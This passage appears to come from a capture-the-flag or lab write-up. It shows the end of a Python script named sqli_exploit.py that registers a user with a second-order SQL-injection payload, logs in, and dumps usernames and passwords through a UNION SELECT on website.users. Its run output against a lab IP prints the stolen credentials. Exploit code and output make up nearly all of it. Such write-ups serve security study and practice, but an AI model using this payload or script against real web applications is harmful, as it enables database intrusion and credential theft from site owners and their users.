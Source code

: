 ```python
    print(Fore.YELLOW + f"[+] Logging in with injected user...")
    home = s.post(login_url, data=login_data)

    box_data = {
        "text_box": "fasdfasd"
    }

    print(Fore.YELLOW + f"[+] Triggering SQLi through text box post-login...")
    box = s.post(login_url, data=box_data)

    search = re.compile(r"<p id=results>(.*?)</p>", re.DOTALL)
    match = search.search(box.text)
    
    if match:
        output = match.group(1).strip()
        print(Fore.GREEN + "[+] SQLi successful! Dumped data:\n")
        print(Fore.CYAN + output)
    else:
        print(Fore.RED + "[-] SQLi failed or no results found.")

if __name__ == "__main__":
    try:
        url = sys.argv[1]
        injectiondb = "' union select 1,(select group_concat(username,\":\",password,\"\r\n\") from website.users),3,4-- -"
        print(Fore.BLUE + f"[*] Target: {url}")
        print(Fore.BLUE + f"[*] Using injection: {injectiondb}")
        sqli(url, injectiondb)
    except IndexError:
        print(Fore.RED + "Usage: python3 sqli_exploit.py http://target/")

```

We get:

```python
python3 sqli_exploit.py 'http://10.201.101.141:8000/'
[*] Target: http://10.201.101.141:8000/
[*] Using injection: ' union select 1,(select group_concat(username,":",password,"
") from website.users),3,4-- -                                                                                                                                                                                                              
[+] Sending registration with injection payload...
[+] Logging in with injected user...
[+] Triggering SQLi through text box post-login...
[+] SQLi successful! Dumped data:

There is only 1 word smokey:Sm0K3s_Th3C@t
,&#39; union select NULL,NULL,NULL-- -:password123                                                                                                                                                                                          
,&#39; union select NULL,NULL,NULL,NULL-- -:password123                                                                                                                                                                                     
,&#39; union select NULL,NULL,NULL,NULL,NULL-- -:password123                                                                                                                                                                                
,&#39; union select NULL,NULL,NULL,NULL,NULL,NULL-- -:password123                                                                                                                                                                           
,&#39; union select NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -:password123                                                                                                                                                                      
```